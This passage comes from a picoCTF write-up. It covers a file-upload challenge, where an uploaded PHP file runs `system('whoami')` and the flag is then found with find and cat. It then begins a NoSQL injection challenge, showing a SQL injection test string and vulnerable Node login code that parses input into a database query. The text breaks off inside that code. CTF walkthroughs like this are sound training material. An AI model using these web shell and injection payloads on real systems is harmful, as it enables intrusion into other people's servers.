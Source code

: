 but we didn’t need to exploit it, once I tried to access the file directly `/uploads/test.png.php` it worked and showed the command output

![](https://miro.medium.com/v2/resize:fit:875/1*mH0BbdmYAeYMoy3f2GoJXg.png)

the output of <?php echo system(“whoami”);?>

so I started to search for the flag, it usually in a file called flag.txt or pico for example but I didn’t ding any of them so searched the whole system for any .txt file using the following command

find /home -name *.txt

![](https://miro.medium.com/v2/resize:fit:875/1*dmgXlVeTENusHud702DwGw.png)

the output of `_find_ /home -name *.txt`

We can notice a strange file called G4ZTCOJYMJSDS.txt so I tried to open it

cat /var/www/html/G4ZTCOJYMJSDS.txt

![](https://miro.medium.com/v2/resize:fit:875/1*DYk8qMlh2dzYu4zJ1OScDg.png)

and here we go `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`

# No Sql Injection

![](https://miro.medium.com/v2/resize:fit:875/1*myVYWC2MlJEd4KPghOSlDQ.png)

The Challenge

![](https://miro.medium.com/v2/resize:fit:875/1*4XQt0d1EkGHB8vCxmWkMTw.png)

challenge website

the first thing that comes to mind when I see a login page is to try the SQL injection `"OR "1"="1"`

![](https://miro.medium.com/v2/resize:fit:461/1*xeHlFFX5GP77aVjLHk18GQ.png)

but no, not this time, when I viewed the source code I found that it’s a Node and React app and it’s using Mongoo database which is a **NoSQL** database

![](https://miro.medium.com/v2/resize:fit:875/1*TDQOKLQQGcWdSVDpJvScfQ.png)

database connection code

so instead I tried the Nosql Injection and started to look at the source code for the login page

  
```
import User from "@/models/user";  
import { connectToDB } from "@/utils/database";  
import { seedUsers } from "@/utils/seed";  
  
export const POST = async (req: any) => {  
  const { email, password } = await req.json();  
  try {  
    await connectToDB();  
    await seedUsers();  
    const users = await User.find({  
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,  
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password  
    });  
  
    if (users.length < 1)  
      return new Response("Invalid email or password", { status: 401 });  
    else {  
```